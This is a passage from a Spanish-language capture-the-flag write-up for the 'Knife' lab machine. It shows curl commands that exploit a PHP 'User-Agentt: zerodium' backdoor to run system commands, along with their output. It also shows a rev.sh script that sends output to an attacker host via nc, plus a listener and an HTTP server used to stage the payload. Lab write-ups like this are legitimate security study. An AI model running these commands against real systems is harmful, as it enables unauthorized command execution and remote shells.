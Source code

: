 O para ver el `id` de (en este caso) **james**:

```bash
❱ curl -s http://10.10.10.242/ -H 'User-Agentt: zerodium;system("id");' | head -n 1
uid=1000(james) gid=1000(james) groups=1000(james)
```

Así que ya tenemos constancia que estamos ejecutando comandos en el sistema, pero ¿sobre cuál?

```bash
❱ curl -s http://10.10.10.242/ -H 'User-Agentt: zerodium;system("hostname");' | head -n 1
knife
```

Bien, al parecer estamos sobre el sistema base y no sobre algún contenedor, pues aprovechemos esto para obtener una Reverse Shell en el sistema...

Podríamos colocar el comando dentro de la función `system()`, pero para trabajar un poco más organizados y no estar cambiando muchas cosas, vamos a crear un archivo `.sh` el cual contendrá nuestro código a ejecutar en el sistema yyy lo único que haremos sera decirle al sistema que venga a buscarlo (:

Pero primero validemos si existe `curL` en la máquina:

```bash
❱ curl -s http://10.10.10.242/ -H 'User-Agentt: zerodium;system("which curl");' | head -n 1
/usr/bin/curl
```

Bien, entonces ahora si creemos el archivo `.sh`:

```bash
❱ cat rev.sh 
#!/bin/bash

id | nc 10.10.14.103 4433
```

Inicialmente le diremos que nos envíe al puerto **4433** de nuestra máquina el resultado del comando **id**. (Esto nos sirve para comprobar si existe `nc`, si nos lee el archivo `.sh` y reafirmamos el **RCE**)

Pongámonos en escucha por el puerto **4433**:

```bash
❱ nc -lvp 4433
listening on [any] 4433 ...
```

Y levantemos nuestro servidor web, así jugando con `curL` lograremos que la máquina encuentre nuestro archivo `.sh`:

```bash
❱ python3 -m http.server
Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/) ...
```

Ahora sí, ejecutamos:

```bash
❱ curl -s http://10.10.10.242/ -H 'User-Agentt: zerodium;system("/usr/bin/curl http://10.10.14.103:8000/rev.sh");' | head
#!/bin/bash

id | nc 10.10.14.103 4433
<!DOCTYPE html>
...
```
